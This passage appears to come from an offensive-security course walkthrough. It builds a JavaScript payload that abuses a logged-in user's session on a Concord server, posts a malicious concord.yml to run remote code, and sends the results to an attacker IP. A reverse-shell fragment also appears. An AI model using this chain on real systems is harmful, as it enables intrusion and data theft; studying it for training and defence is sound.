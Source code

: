 ```
         } catch (Exception e) {}
         };
         p.destroy();
         s.close();
`

      fetch("http://concord:8001/api/service/console/whoami", {
         credentials: 'include'
      })
...
   </script>
```

> Listing 19 - Adding Yaml to HTML

Next, we will define a function at the end of the script tags that will post the concord.yml file.

```
function rce() {
   var ymlBlob = new Blob([yml], { type: "application/yml" });
   var fd = new FormData();
   fd.append('concord.yml', ymlBlob);
   fetch("http://concord:8001/api/v1/process", {
      // FIXME
      body: fd
   })
   .then(response => response.text())
   .then(data => {
      fetch("http://192.168.118.2/?msg=" + data )
   }).catch(err => {
      fetch("http://192.168.118.2/?err=" + err )
   });
}
```

> Listing 20 - Post concord.yml

We'll start by creating a blob from the _yml_ string with the _content-type_ of "application/yml". This will not change the _content-type_ header of the request, but will define the _content-type_ in the _form-data_ for _fetch_. Next, we'll create the _form-data_ and append the concord.yml document. Once set up, we'll use _fetch_ to send the appropriate request. We'll capture all responses and errors.

Finally, we'll need to edit the login check request we sent earlier to run the _rce_ function when a user is authenticated.

```
...
	fetch("http://concord:8001/api/service/console/whoami", {
		credentials: 'include'
	})
	.then(async (response) => {
		if(response.status != 401){
			let data = await response.text();
			fetch("http://192.168.118.2/?msg=" + data );
			rce();
		}else{
			fetch("http://192.168.118.2/?msg=UserNotLoggedIn" );
		}
	})
...
```
